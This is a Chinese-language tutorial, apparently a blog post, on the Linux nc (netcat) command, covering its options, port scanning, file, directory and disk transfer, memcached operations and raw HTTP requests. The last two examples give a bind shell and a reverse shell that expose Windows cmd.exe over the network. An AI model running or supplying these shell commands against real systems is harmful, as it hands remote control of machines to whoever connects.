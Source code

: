 # [linux nc 命令详解](https://www.cnblogs.com/misswangxing/p/11242859.html)

linux nc命令使用详解

功能说明：功能强大的网络工具
语　　法：nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>][-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
参　　数：
-g<网关> 设置路由器跃程通信网关，最丢哦可设置8个。
-G<指向器数目> 设置来源路由指向器，其数值为4的倍数。
-h 在线帮助。
-i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
-l 使用监听模式，管控传入的资料。
-n 直接使用IP地址，而不通过域名服务器。
-o<输出文件> 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p<通信端口> 设置本地主机使用的通信端口。
-r 乱数指定本地与远端主机的通信端口。
-s<来源位址> 设置本地主机送出数据包的IP地址。
-u 使用UDP传输协议。
-v 详细输出--用两个-v可得到更详细的内容
-w<超时秒数> 设置等待连线的时间。
-z 使用0输入/输出模式，只在扫描通信端口时使用。

nc使用示例

\1. 端口扫描
\# nc -v -w 2 192.168.2.34 -z 21-24
nc: connect to 192.168.2.34 port 21 (tcp) failed: Connection refused
Connection to 192.168.2.34 22 port [tcp/ssh] succeeded!
nc: connect to 192.168.2.34 port 23 (tcp) failed: Connection refused
nc: connect to 192.168.2.34 port 24 (tcp) failed: Connection refused

\2. 从192.168.2.33拷贝文件到192.168.2.34
在192.168.2.34上： nc -l 1234 > test.txt
在192.168.2.33上： nc 192.168.2.34 < test.txt

\3. 简单聊天工具
在192.168.2.34上： nc -l 1234
在192.168.2.33上： nc 192.168.2.34 1234
这样，双方就可以相互交流了。使用ctrl+C(或D）退出。

\4. 用nc命令操作memcached
1）存储数据：printf “set key 0 10 6rnresultrn” |nc 192.168.2.34 11211
2）获取数据：printf “get keyrn” |nc 192.168.2.34 11211
3）删除数据：printf “delete keyrn” |nc 192.168.2.34 11211
4）查看状态：printf “statsrn” |nc 192.168.2.34 11211
5）模拟top命令查看状态：watch “echo stats” |nc 192.168.2.34 11211
6）清空缓存：printf “flush_allrn” |nc 192.168.2.34 11211 (小心操作，清空了缓存就没了）

\5. nc -p 1234 -w 5 host.example.com 80
建立从本地1234端口到host.example.com的80端口连接，5秒超时
nc -u host.example.com 53
u为UDP连接

\6. echo -n "GET / HTTP/1.0"r"n"r"n" | nc host.example.com 80
连接到主机并执行

\7. nc -v -z host.example.com 70-80
扫描端口(70到80)，可指定范围。-v输出详细信息。


\8. 远程拷贝文件
从server1拷贝文件到server2上。需要先在server2上，用nc激活监听，

server2上运行：

root@hatest2 tmp]# nc -lp 1234 > install.log

server1上运行：

[root@hatest1 ~]# ll install.log
-rw-r–r– 1 root root 39693 12月 20 2007 install.log
[root@hatest1 ~]# nc -w 1 192.168.228.222 1234 < install.log

\9. 克隆硬盘或分区
操作与上面的拷贝是雷同的，只需要由dd获得硬盘或分区的数据，然后传输即可。
克隆硬盘或分区的操作，不应在已经mount的的系统上进行。所以，需要使用安装光盘引导后，进入拯救模式（或使用Knoppix工 具光盘）启动系统后，在server2上进行类似的监听动作：
\# nc -l -p 1234 | dd of=/dev/sda

server1上执行传输，即可完成从server1克隆sda硬盘到server2的任务：
\# dd if=/dev/sda | nc 192.168.228.222 1234

※ 完成上述工作的前提，是需要落实光盘的拯救模式支持服务器上的网卡，并正确配置IP。



\10. 保存Web页面
\# while true; do nc -l -p 80 -q 1 < somepage.html; done

\11. 模拟HTTP Headers,获取网页源代码和返回头部信息

[root@hatest1 ~]# nc www.linuxso.com 80
GET / HTTP/1.1
Host: ispconfig.org
Referrer: mypage.com
User-Agent: my-browser

HTTP/1.1 200 OK
Date: Tue, 16 Dec 2008 07:23:24 GMT
Server: Apache/2.2.6 (Unix) DAV/2 mod_mono/1.2.1 mod_python/3.2.8 Python/2.4.3 mod_perl/2.0.2 Perl/v5.8.8
Set-Cookie: PHPSESSID=bbadorbvie1gn037iih6lrdg50; path=/
Expires: 0
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Cache-Control: private, post-check=0, pre-check=0, max-age=0
Set-Cookie: oWn_sid=xRutAY; expires=Tue, 23-Dec-2008 07:23:24 GMT; path=/
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
[......]
在nc命令后，输入红色部分的内容，然后按两次回车，即可从对方获得HTTP Headers内容。


\12. 传输目录
从server1拷贝nginx-0.6.34目录内容到server2上。需要先在server2上，用nc激活监听，server2上运行：
引用

[root@hatest2 tmp]# nc -l 1234 |tar xzvf -
server1上运行：
引用

[root@hatest1 ~]# ll -d nginx-0.6.34
drwxr-xr-x 8 1000 1000 4096 12-23 17:25 nginx-0.6.34
[root@hatest1 ~]# tar czvf – nginx-0.6.34|nc 192.168.228.222 1234


13.REMOTE主机绑定SHELL
例子：

格式：nc -l -p 5354 -t -e c:\winnt\system32\cmd.exe
讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口


14.REMOTE主机绑定SHELL并反向连接
例子：

格式：nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354
讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口
以上为最基本的几种用法（其实NC的用法还有很多，
当配合管道命令"|"与重定向命令"<"、">"等等命令功能更强大......）。